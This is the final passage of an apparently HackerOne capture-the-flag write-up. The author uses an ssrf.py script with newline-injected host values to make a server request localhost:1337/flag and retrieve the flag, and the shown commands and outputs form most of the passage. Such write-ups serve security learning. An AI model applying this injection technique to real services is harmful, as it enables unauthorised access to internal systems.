 Port 1337 has a weird response. Let's investigate it more. I edited my `ssrf.py` to request ID-1, and started messing around port 1337 of localhost

```sh
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212.randomd.com\nlocalhost:1337\nanother.lol.com'
Reading id -> 5674
Hmm, where would it be?

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212.randomd.com\nlocalhost:1337/lol\nanother.lol.com'
Reading id -> 5677
<html>
<head><title>404 Not Found</title></head>
<body bgcolor="white">
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.10.3 (Ubuntu)</center>
</body>
</html>
```

Hmm, it looks like a nginx web server is running on port 1337. Why could that be? 

Then it occured to me, and I tried requesting the `/flag` file on port 1337. And BOOM, i finally got the flag after 9 hours of misery.

```sh
jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212.randomd.com\nlocalhost:1337/flag\nanother.lol.com'
Reading id -> 5680
FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6
```

So the flag is ```FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6```, and this marks the end of the writeup. 

As a sidenote, the `reset.php` discovered in the dirbuster scan is just a file which resets all the IDs, so they start from 0 again. 

Hope to see you all at NYC, or atleast some swag if I don't get selected. 

PS: I spent more time on this writeup than the actual CTF.

Regards,

Jazzy
